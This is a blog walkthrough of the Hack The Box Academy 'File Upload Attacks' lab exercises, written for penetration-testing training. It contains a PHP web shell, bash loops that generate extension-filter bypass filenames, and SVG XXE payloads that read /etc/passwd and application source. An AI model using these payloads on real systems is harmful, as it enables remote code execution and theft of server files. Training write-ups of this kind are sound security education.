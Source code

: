 ```yaml
---
layout: post
title:  "Hack The Box - Academy - File Upload Attacks"
description: "Follow this comprehensive walkthrough of the Hack The Box Academy File Upload Attacks Skills Assessment. Master file upload attack techniques to exploit vulnerable web applications using Caido, perfect for enhancing your penetration testing skills and preparing for HTB challenges."
date:   2024-10-23 18:48
image:  /images/htb/file-upload-attacks/logo.png
tags:   [file-upload-attacks,cbbh]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/136/section/1259">File Upload Attacks</a><br/>
<a href="https://jacozwarts.github.io/images/htb/file-upload-attacks/File_Upload_Attacks_Module_Cheat_Sheet.pdf">File Upload Attacks - Cheat Sheet</a><br/>
<a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst">PayloadsAllTheThings - PHP Extensions List</a><br/>
<a href="https://en.wikipedia.org/wiki/List_of_file_signatures">List of file signatures</a><br/>


<hr/>

## Notes:
Filter image content types from Content-Type wordlist:

**Wordlist path:** <br/>
`/usr/share/wordlists/seclists/Miscellaneous/Web/content-type.txt`
```
cat content-type.txt | grep 'image/' > image-content-types.txt
```

## Whitelist Filters - Exercise

### The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read `"/flag.txt"`

Create a `custom wordlist` by executing the below bash script:
```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

#### Step-by-Step Guide to Automating File Upload Testing with Caido
- Launch Caido and navigate to the Automation section.

- Initiate an Upload Request: 
Create an upload request and set the filename as the automation payload.

- Use the Wordlist:
Copy the content from the specified wordlist and paste it into the Simple List input field within Caido.

- Start the Automation
Begin the automation process by clicking the start button.

- Review the Results
Once the automation completes, review the results.

- Filter the Results
Sort the results by length in descending order and look for responses with a length of `193`.

- Test the Successful File Extensions
Identify which file extensions were successfully uploaded and test them further for potential vulnerabilities.

`Payload:`

```
<?php system($_REQUEST['cmd']); ?>
```

![Caido White list Request](/images/htb/file-upload-attacks/white-list-filter-caido-request.png)

![Caido White list Result](/images/htb/file-upload-attacks/white-list-filter-caido-result.png)

![Webshell](/images/htb/file-upload-attacks/white-list-filter-web-shell.png)

Navigate through the folders to locate the `flag.txt` file.

![Webshell](/images/htb/file-upload-attacks/white-list-filter-flag-result.png)
<hr/>

## Type Filters - Exercise

### The above server employs Client-Side, Blacklist, Whitelist, Content-Type, and MIME-Type filters to ensure the uploaded file is an image. Try to combine all of the attacks you learned so far to bypass these filters and upload a PHP file and read the flag at `"/flag.txt"`

Use a png file and add the .phtml extension in the filename add the web shell below the MIME type and execute the upload functionality.
![Type filters - Request](/images/htb/file-upload-attacks/type-filters-request.png)
![Type filters - Result](/images/htb/file-upload-attacks/type-filters-result.png)

<hr/>

## Skills Assessment
><b>Overview:</b>
You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.<br/><br/>
Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

### Extra Exercise
Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


### Try to exploit the upload form to read the flag found at the root directory "/".
During our analysis of the web application, we identified a file upload feature located on the 'Contact Us' page.

#### 1. Identify File Storage: 
When uploading an image, the application does not reveal where the uploaded file is stored.

#### 2. Access Source Code: 
To understand the file storage mechanism, obtain the source code of the upload.php file.

#### 3. Monitor POST Method: 
Observe that when an image is uploaded, the POST method returns the image result.

#### 4. Test for Vulnerability: 
Use an SVG file to test if the application is vulnerable to `XML External Entity (XXE)` attacks. I used the payload below to check if we can read the contents of the `/etc/passwd` file.

```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Result](/images/htb/file-upload-attacks/skills-assessment-xxe-test.png)

#### 5. Extract Upload.php source code:
```
Content-Disposition: form-data; name="uploadFile"; filename="SVG-XXE-Injection.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

![Skills Asssessment XXE - Upload.php Source Code](/images/htb/file-upload-attacks/skills-assessment-upload-source-code.png)

Use Caido to base64 decode the payload and analyze the `upload.php` source code.

![Decode payload with Caido](/images/htb/file-upload-attacks/skills-assessment-decode-caido.png)

`Uploade.php source code decrypted:`

![Upload.php source code decrypted](/images/htb/file-upload-attacks/skills-assessment-upload-source-code-decrypted.png)

After analyzing the source code, you'll be able to identify the upload directory and the format of the saved file. One issue I encountered was related to time zones; I was in the AEST timezone with a different date to the server. Additionally, you can view the code to bypass the image filters. Now, upload a new image containing a web shell.

Leverage the custom wordlist below to generate potential extensions that are not blacklisted. Begin by sending an upload request to Caido Automate, mark the `filename` as the `placeholder` and load the wordlist using the Simple List option. In the request body, insert the PHP web shell after the `MIME type`, then click "Run" to initiate the automation. Finally, review the results to identify the allowed extensions.

Create a `custom wordlist` by executing the below bash script:

```
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps' '.phar' '.phtml'; do
        echo "Zwarts$char$ext.png" >> wordlist.txt
        echo "Zwarts$ext$char.png" >> wordlist.txt
        echo "Zwarts.png$char$ext" >> wordlist.txt
        echo "Zwarts.png$ext$char" >> wordlist.txt
    done
done
```

```
<?php system($_REQUEST['cmd']); ?>
```
![Caido Automate Request](/images/htb/file-upload-attacks/skills-assessment-caido-automate.png)

`Look for results that has a content length > 190`

![Caido Automate Results](/images/htb/file-upload-attacks/skills-assessment-caido-automate-results.png)

![Flag Result](/images/htb/file-upload-attacks/skills-assessment-flag-result.png)

<hr/>